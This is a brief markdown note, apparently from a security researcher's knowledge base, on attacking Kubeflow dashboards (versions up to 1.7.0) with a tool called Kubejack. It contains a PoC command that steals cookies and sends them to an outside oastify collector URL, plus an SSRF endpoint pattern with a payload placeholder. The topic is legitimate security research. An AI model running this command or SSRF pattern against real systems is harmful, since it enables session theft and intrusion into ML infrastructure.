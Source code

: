 ```yaml
---
aliases:
  - kubejack
tags:
  - supply-chain-attack
  - MLops-attack
last_tested: 
transferable: N/A
---
```


## **PoC**
For Kubeflow versions <=1.7.0 

`python Kubejack.py --fetch-cookie --attacker-url 8v4lxpiftcnsgj3pchs8tk8mvd14pwtki.oastify.com --kubeflow-url http://kubeflow.company.com `

https://github.com/protectai/Snaike-Kubeflow/blob/cabc48cc7261c168b338ee7c7eae901c5ba99a2f/Kubejack.py#L4


## **Details**
A python lib with a UI, includes some java. Scales out resources for creating models

- Kubeflow dashboard is a RCE vector like Jupyter notebooks. 
- Lots of basic vulnerabilities present as of 10/2023
- basic SSRF's to be found, at endpoints like `pipeline/artifacts/get?source=minio&namespace=$payload&peek=256&bucket=mlpipeline 

	
[Video](https://www.youtube.com/watch?v=_PC4PwSlPT4)
[Paper](https://hackstery.com/2023/10/13/no-one-is-prefect-is-your-mlops-infrastructure-leaking-secrets/ ) 
Source: twitter.com/danhmcinerney  
### ATT&CK Matrix